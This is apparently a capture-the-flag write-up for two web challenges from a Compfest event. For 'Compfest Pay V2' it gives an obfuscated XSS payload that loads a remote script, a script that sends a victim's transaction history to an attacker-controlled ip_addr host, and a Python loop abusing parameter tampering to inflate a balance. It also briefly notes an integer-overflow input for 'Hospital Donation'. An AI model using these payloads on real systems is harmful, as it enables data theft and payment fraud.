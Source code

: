 ## Compfest Pay V2
1. There's a parameter tampering transactions feature
2. There's also a XSS in message with some restriction like limit character and some blacklist keyword and symbol
3. Create transaction to `richGuy` and set message with XSS. Based on hint, our goal is getting his transaction history

payload
```
<img src="x" onerror="eval('\x24'+'\x2ege'+'t\x53c'+'ript(`//ip_addr:1112/x.js`)')">
```

x.js
```
function getData() {
    let url = "/api/v1/history/sent/"
    $.getJSON(url, function(data){
        fetch('http://ip_addr:2234/?'+btoa(JSON.stringify(data['data'])))
    })
}
getData();
```

4. Create transaction to the username in transcation history and set amount to `1`
5. Update transaction and add `amount` parameter to less than to our current balance
6. Delete transaction and our balance will be multiply

```
import requests as req
from bs4 import *
import json
'''
    Sorry if its really messy and buggy >_<
'''
r = req.Session()
balance, id = 0, ""
def login():    
    b = BeautifulSoup(r.get('http://103.152.242.56:6901/login/').text, 'html.parser')
    token = b.find('input', {'name':'csrfmiddlewaretoken'})['value']    
    print("[+] Logged in as YaeMiko_emang_cantik:nyx")
    (r.post('http://103.152.242.56:6901/login/', data={'username':'YaeMiko_emang_cantik', 'password':'nyx', 'csrfmiddlewaretoken':token}))

def getBalance():
    b = BeautifulSoup(r.get('http://103.152.242.56:6901/dashboard/').text, 'html.parser')
    global balance
    balance = (int(b.find('text', {'style':'font-size:85px;fill:#ffffff;font-weight:300;line-height:1.25;font-family:Nunito,sans-serif;'}).text.replace(" ", "").replace("\n", "").replace(",", "")[1:]))
    print("[+] Balance " + str(balance))
    
def creatTrx():
    b = BeautifulSoup(r.get('http://103.152.242.56:6901/dashboard/').text, 'html.parser')
    token = b.find('input', {'name':'csrfmiddlewaretoken'})['value']
    print("[+] Create Transaction")
    (r.post("http://103.152.242.56:6901/transaction/send/", data={"csrfmiddlewaretoken":token, "recipient":"minions279", "msg":"a", "amount":1, "transaction_password":"nyx"}))

def updateTrx(bal):
    s_bal = bal - 1
    b = BeautifulSoup(r.get('http://103.152.242.56:6901/dashboard/').text, 'html.parser')
    token = b.find('input', {'name':'csrfmiddlewaretoken'})['value']
    print("[+] Update Transaction")
    global id
    id = (json.loads(r.get("http://103.152.242.56:6901/api/v1/history/sent/").text)["data"][0]["id"])       
    (r.post(f"http://103.152.242.56:6901/transaction/{id}/update/", data={"csrfmiddlewaretoken":token, "transaction_password":"nyx", "msg":"a", "amount":s_bal}))

def cancelTrx(id):
    print("[+] Cancel Transcation")
    r.get(f'http://103.152.242.56:6901/transaction/{id}/delete/')

if __name__ == '__main__':
    login()
    while balance < 1000000000:    
        getBalance()
        print(balance)
        creatTrx()
        updateTrx(balance)
        cancelTrx(id)
```

## Hospital Donation (454pts)
1. its integer overflow
2. Buy transport venti and set the value to `"10e100"`

